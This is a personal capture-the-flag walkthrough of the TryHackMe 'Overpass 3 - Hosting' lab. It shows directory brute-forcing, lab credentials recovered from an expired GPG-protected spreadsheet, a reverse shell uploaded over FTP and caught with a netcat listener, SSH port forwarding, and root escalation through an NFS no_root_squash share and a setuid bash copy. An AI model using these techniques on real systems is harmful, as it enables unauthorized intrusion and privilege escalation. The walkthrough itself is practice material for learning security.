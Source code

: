```yaml
---
layout: post
title: Overpass 3 - Hosting
published: true
category: CTF
system: linux
walkthrough-type: thm
source: https://tryhackme.com/room/overpass3hosting
Description: You know them, you love them, your favourite group of broke computer science students have another business venture! Show them that they probably should hire someone for security...
tags: overpass, centOS, linux, privesc
---
```


# Notes


- `gobuster dir -u http://overpass3hosting.thm -w /usr/share/seclists/Discovery/Web-Content/common.txt -t 100 -x txt,php` we find a backups folder with a zip lets get that and check it. dont see any other files on the server.

inside of backups theres a priv key and a gpg file. 

- `gpg --import priv.key`

looks like the key is expired

we can slect the key and edit with gpg and refresh the expiry and open the xls file.

opening the xls gives us a few usernames and passwords

```
paradox	ShibesAreGreat123
0day	OllieIsTheBestDog
muirlandoracle	A11D0gsAreAw3s0me
```

we can use paradox's creds to login to the ftp, because their ftp server is their webserver dir we can use this to upload a remote shell.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/overpass3hosting]
└─$ nc -nvlp 6669             
listening on [any] 6669 ...
connect to [10.2.3.64] from (UNKNOWN) [10.10.16.128] 41210
Linux localhost.localdomain 4.18.0-193.el8.x86_64 #1 SMP Fri May 8 10:59:10 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:51:30 up  1:10,  0 users,  load average: 0.00, 0.03, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: cannot set terminal process group (848): Inappropriate ioctl for device
sh: no job control in this shell
sh-4.4$ whoami
whoami
apache
```

- we can run `find / -name *flag* 2>/dev/null` to find the web flag.

# privilege escalation

`/home/james *(rw,fsid=0,sync,no_root_squash,insecure)`

james has `no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications. Read the /etc/exports file, if you find some directory that is configured as `no_root_squash`, then you can access it from as a client and write inside that directory as if you were the local root of the machine.

`no_root_squash`: This option basically gives authority to the root user on the client to access files on the NFS server as root. And this can lead to serious security implications.

we can also swap to user paradox with his pass `su`.

trying to use `https://book.hacktricks.xyz/linux-hardening/privilege-escalation/nfs-no_root_squash-misconfiguration-pe` escalation we seem to have an issue connecting with the target machine so in order to connect we will need to setup an ssh port forward.

1. generate a private/public key on the target - `ssh-keygen -f paradox`
2. copy contents of puclic key and edit authorized_keys file on our attacker machine `echo "paradox_key" >> /home/paradox/.ssh/authorized_keys`
3. now we can connect via ssh using the private key after we copy it over to our attacker. 

to check which ports the nfs is listening on we can run `rpcinfo -p` which tells us port `2049`. with this information we can do some SSH port forwarding.

- `ssh paradox@overpass3hosting.thm -i paradox -L 2049:localhost:2049`

create a directory for the share and mount `mkdir /tmp/pe && sudo mount -v -t nfs localhost:/ /tmp/pe`

we get the user flag within the mounted share. we can also `ls -las` and see everything inside james share. we can copy james` priv ssh key and login next stop root. since we can login to james now we can copy bash and simply obtain root.


1. target `cp /bin/bash .`
2. attacker shared `sudo su`, `chown root:root bash`, `chmod +s bash`
3. on the target `./bash -p`

from here we can `cat root.flag` in the root dir.


